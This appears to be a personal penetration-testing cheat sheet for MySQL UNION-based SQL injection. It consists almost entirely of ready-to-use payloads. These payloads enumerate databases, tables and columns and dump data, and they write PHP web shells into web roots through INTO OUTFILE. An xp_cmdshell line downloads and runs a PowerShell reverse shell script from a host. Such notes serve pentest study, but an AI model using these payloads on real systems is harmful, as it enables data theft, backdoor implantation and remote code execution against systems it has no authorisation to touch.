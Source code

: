 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Check out:
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/

https://www.exploit-db.com/papers/13650

[https://www.imperva.com/learn/application-security/sql-injection-sqli/](https://www.imperva.com/learn/application-security/sql-injection-sqli/)

![[Pasted image 20220712135953.png]]


Retrieve database version:
```SQL
UNION ALL SELECT NULL, version() -- -
```

List the databases:

```SQL
UNION ALL SELECT NULL, concat(schema_name) FROM information_schema.schemata -- -
```

Retrieve table names:

```SQL
UNION ALL SELECT NULL, concat(table_name) FROM information_schema.TABLES WHERE table_schema=database() -- -
```

Retrieve column names:

```SQL
UNION ALL SELECT NULL, concat(column_name) FROM information_schema.COLUMNS WHERE table_schema=database() -- -
```

Retrieve data:

```SQL
UNION ALL SELECT NULL, (0x28, column1, 0x3a, column2, 0x29) FROM table1 -- -
```

Retrieve data from different database:

```SQL
UNION ALL SELECT NULL, (0x28, column1, 0x3a, column2, 0x29) FROM databaseName.table1 -- -
```

#### Using INTO OUTFILE to create a malicious PHP file:
```SQL
http://$TARGET/debug.php?id=1 union all select 1,2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

```SQL
http://$TARGET/debug.php?id=1 UNION SELECT '<?php echo shell_exec($_GET[\'cmd\']); ?>', null INTO OUTFILE '/var/www/cmd.php' #
```

```SQL
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -' 
```

#### Windows box cmdshell trick:
```SQL
xp_cmdshell "powershell -IEX(New-Object Net.WebClient).DownloadString('http://$TARGET/Invoke-PowerShellTcp.ps1')"
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
